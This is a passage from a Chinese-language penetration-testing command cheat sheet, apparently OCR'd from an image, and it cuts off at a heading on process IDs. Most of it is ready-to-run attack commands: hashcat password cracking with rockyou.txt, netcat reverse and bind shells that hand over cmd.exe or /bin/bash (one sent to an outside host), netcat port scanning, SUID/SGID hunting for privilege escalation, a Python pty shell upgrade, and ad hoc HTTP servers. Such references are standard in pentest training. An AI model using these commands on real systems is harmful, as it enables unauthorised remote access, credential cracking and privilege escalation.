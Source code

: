 hashcat -m 400 -a 0 hash /root/rockyou.txt
使用 NC 抓取 Banner 信息

nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0
Referrer: www.example.com
<enter>
<enter>
使用 NC 在 Windows 上反弹 shell

c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
查找 SUID\SGID root 文件

# 查找 SUID root 文件
find / -user root -perm -4000 -print

# 查找 SGID root 文件:
find / -group root -perm -2000 -print

# 查找 SUID 和 SGID 文件:
find / -perm -4000 -o -perm -2000 -print

# 查找不属于任何用户的文件:
find / -nouser -print

# 查找不属于任何用户组的文件:
find / -nogroup -print

# 查找软连接及其指向:
find / -type l -ls
Python shell

python -c 'import pty;pty.spawn("/bin/bash")'
Python\Ruby\PHP HTTP 服务器

python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :D
 ocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
获取进程对应的 PID
